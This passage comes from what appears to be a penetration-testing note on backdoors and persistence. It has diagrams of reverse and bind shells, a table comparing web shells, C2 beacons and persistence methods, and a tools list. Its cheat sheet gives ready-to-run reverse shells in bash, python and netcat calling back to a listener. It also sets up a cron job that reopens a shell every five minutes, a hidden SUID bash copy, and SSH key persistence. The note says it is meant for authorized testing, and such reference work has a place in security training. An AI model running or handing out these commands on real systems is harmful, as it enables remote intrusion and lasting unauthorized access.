    E --> E2[Cron Job]
    E --> E3[Systemd Service]
    E --> E4[Registry Run Key]
    E --> E5[Scheduled Task]

    F --> F1[Meterpreter]
    F --> F2[Cobalt Strike Beacon]
    F --> F3[Sliver / Havoc]
    F1 --> F1a[reverse_tcp]
    F1 --> F1b[reverse_https]
    F2 --> F2a[HTTP/S Beacon]
    F2 --> F2b[DNS Beacon]
    F2 --> F2c[SMB Named Pipe]

    style A fill:#1a1a2e,color:#e0e0e0,stroke:#4a4a8a
    style B fill:#16213e,color:#e0e0e0,stroke:#0f3460
    style C fill:#16213e,color:#e0e0e0,stroke:#0f3460
    style D fill:#16213e,color:#e0e0e0,stroke:#0f3460
    style E fill:#16213e,color:#e0e0e0,stroke:#0f3460
    style F fill:#16213e,color:#e0e0e0,stroke:#0f3460
```



---

```mermaid
sequenceDiagram
    participant ATK as Attacker
    participant VIC as Victim
    participant FW  as Firewall

    Note over ATK,FW: === Reverse Shell Flow ===
    ATK->>ATK: nc -lvnp 443
    VIC->>FW: TCP SYN → attacker:443
    FW-->>ATK: TCP SYN (outbound allowed)
    ATK-->>VIC: SYN-ACK
    VIC-->>ATK: Shell session established
    ATK->>VIC: id; whoami; uname -a
    VIC-->>ATK: root; root; Linux ...

    Note over ATK,FW: === Bind Shell Flow ===
    VIC->>VIC: nc -lvnp 4444 -e /bin/bash
    ATK->>FW: TCP SYN → victim:4444
    FW->>FW: BLOCK (inbound port 4444 not allowed)
    FW--xATK: Connection refused / timed out
```

---



---

## 16. Comprehensive Comparison Table

| Backdoor Type | Platform | Survival on Reboot | Stealth Level | Reliability | Requires Root | Primary Use Case |
|---|---|---|---|---|---|---|
| PHP Web Shell (one-liner) | Linux / Windows | ✅ (file persists) | Low–Medium | Medium | ❌ | Web app post-exploit |
| PHP Web Shell (feature-rich) | Linux / Windows | ✅ | Low | High | ❌ | Full web admin access |
| ASPX Web Shell | Windows IIS | ✅ | Low | High | ❌ | Windows web servers |
| JSP Web Shell | Linux / Windows | ✅ | Low | High | ❌ | Java app servers |
| Bind Shell (nc) | Linux / Windows | ❌ | Very Low | Low | ❌ | Air-gapped targets |
| Reverse Shell (bash) | Linux | ❌ | Low | Low | ❌ | Quick callback |
| Reverse Shell (PowerShell) | Windows | ❌ | Medium | Medium | ❌ | Windows quick callback |
| Meterpreter (reverse_https) | Linux / Windows | ❌ | High | High | ❌ | Framework operations |
| Meterpreter + persistence | Linux / Windows | ✅ | Medium | High | Depends | Long-term access |
| SSH Authorized Keys | Linux / macOS | ✅ | High | Very High | ❌ (user) | Long-term Linux access |
| SUID Bash Copy | Linux | ✅ | Medium | High | ✅ | Privilege escalation backdoor |
| Cron Job | Linux | ✅ | Medium | High | ❌ | Scheduled re-entry |
| Registry Run Key | Windows | ✅ | Medium | High | ❌ (user) | Windows persistence |
| Scheduled Task (Windows) | Windows | ✅ | Medium | High | Depends | Windows long-term |
| Cobalt Strike Beacon (HTTPS) | Windows / Linux | ✅ (with persist) | Very High | Very High | ❌ | Red team operations |
| Cobalt Strike DNS Beacon | Any | ✅ (with persist) | Extremely High | Medium | ❌ | Highly restricted environments |
| Weevely Shell | Linux (PHP) | ✅ | High | Medium | ❌ | Stealth web access |

---

## 17. Quick Reference Cheat Sheet

```bash
# === LISTENERS ===
nc -lvnp 4444                                          # Simple TCP listener
rlwrap nc -lvnp 4444                                   # With readline (arrow keys)
socat file:`tty`,raw,echo=0 TCP-LISTEN:4444,reuseaddr  # PTY listener

# === REVERSE SHELLS ===
bash -i >& /dev/tcp/10.10.10.1/4444 0>&1
python3 -c 'import socket,subprocess,os,pty;s=socket.socket();s.connect(("10.10.10.1",4444));[os.dup2(s.fileno(),x) for x in range(3)];pty.spawn("/bin/bash")'
nc -e /bin/bash 10.10.10.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.10.1 4444>/tmp/f

# === WEB SHELL USAGE ===
curl "http://target/cmd.php?c=id"
curl -d "cmd=id" http://target/cmd.php

# === SSH PERSISTENCE ===
ssh-keygen -t ed25519 -f bd -N "" && cat bd.pub >> ~/.ssh/authorized_keys
ssh -i bd user@target

# === SUID BACKDOOR ===
cp /bin/bash /tmp/.b && chmod +s /tmp/.b && /tmp/.b -p

# === CRON PERSISTENCE ===
(crontab -l; echo "*/5 * * * * bash -i >& /dev/tcp/10.10.10.1/4444 0>&1") | crontab -

# === TTY UPGRADE ===
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z  →  stty raw -echo; fg  →  export TERM=xterm-256color
```

---

## 18. Related Tools & Resources

| Tool | Purpose | URL / Command |
|---|---|---|
| **msfvenom** | Generate payloads | `msfvenom --list payloads` |
| **Metasploit** | Multi/handler, post modules | `msfconsole` |
| **Weevely** | Steganographic PHP shell | `pip install weevely` |
| **p0wny-shell** | Feature-rich PHP shell | GitHub: flozz/p0wny-shell |
| **revshells.com** | Reverse shell generator | https://www.revshells.com |
| **PentestMonkey** | PHP reverse shell | GitHub: pentestmonkey/php-reverse-shell |
| **Socat** | PTY bind/reverse shells | `apt install socat` |
| **Chisel** | HTTP tunnel / port forward | GitHub: jpillora/chisel |
| **Sliver** | Open-source C2 framework | GitHub: BishopFox/sliver |
| **Havoc** | Modern open-source C2 | GitHub: HavocFramework/Havoc |

---

> **Warning:** All techniques documented in this note are for use exclusively in authorized penetration testing engagements. Unauthorized access to computer systems is illegal under the Computer Fraud and Abuse Act (CFAA), Computer Misuse Act (CMA), and equivalent legislation worldwide. Always obtain written authorization before testing.

> **Note:** Clean up all backdoors, web shells, cron jobs, scheduled tasks, registry keys, and SSH authorized keys at the conclusion of every engagement. Document what was planted and verify removal with the client's blue team.
